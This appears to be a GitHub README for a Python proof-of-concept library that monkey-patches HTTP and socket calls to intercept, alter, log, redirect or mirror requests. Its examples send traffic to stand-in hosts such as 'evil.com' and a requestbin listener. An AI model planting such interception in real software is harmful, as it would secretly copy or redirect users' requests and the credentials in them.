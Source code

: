 # py-request-interceptor
[![Python3 Version](https://img.shields.io/badge/python-3.6%20%28%3F%29%20%7C%203.7%2B-blue)](https://www.python.org/downloads/)
[![License](https://img.shields.io/badge/license-GPL--3.0-blue)](/LICENSE)
[![Code Style](https://img.shields.io/badge/code%20style-black-000000)](https://github.com/psf/black)  
## Description
:rat: Intercepts your HTTP(S) requests from Python standard libraries. Allows you to catch API calls and HTTP(S) requests from different `requests`/`urllib`/`http`-based libraries (and many others based on the original `http.client`/`socket` stack).

## Warning
:construction: **Note:** This is just a WIP/PoC project w/o rocket science in it - just a bunch of dirty monkey patches. So, enjoy it "as is" if you are interested in it. Not properly tested lol.

## Proof of Concept
```python3
#!/usr/bin/env python3

from src.interceptor import Interceptor
from requests import get

# Initialize 'Interceptor' here, nothing special
intercept = Interceptor()

@intercept.sniff(listener="http://YOUR_LISTENER_ENDPOINT")
@intercept.dump()
@intercept.data(data="GET / HTTP/1.1\r\n ...modified request goes here")
def example_sniff_connect() -> CaseInsensitiveDict:
    """
    Patch request data, dump modified request to the logs, and re-send copy of the request
    to another endpoint
    :return: response headers
    """
    return get(url="http://ORIGINAL_HOST").headers

if __name__ == "__main__":
    example_sniff_connect()
```

## Handlers
### Redirect to another target
Definition:  
```python3
def target(self, host: str, port: int) -> callable:
```
Example:
```python3
intercept = Interceptor()

@intercept.target(host="http://evil.com", port=80)
def my_func():
    ...
```
### Replace raw requests data
Definition:  
```python3
def data(self, data: Union[str, bytes]) -> callable:
```
Example:
```python3
intercept = Interceptor()

@intercept.data(data="GET / HTTP/1.1\r\n...")
def my_func():
    ...
```
### Log raw requests to the console 
Definition:  
```python3
def dump(self) -> callable:
```
Example:
```python3
intercept = Interceptor()

@intercept.dump()
def my_func():
    ...
```
### Re-send copy of the original raw requests to another endpoint
Definition:  
```python3
def sniff(self, listener: str) -> callable:
```
Example:
```python3
intercept = Interceptor()

@intercept.sniff(listener="http://requestbin.net/r/YOUR_REQUESTBIN_ID")
def my_func():
    ...
```
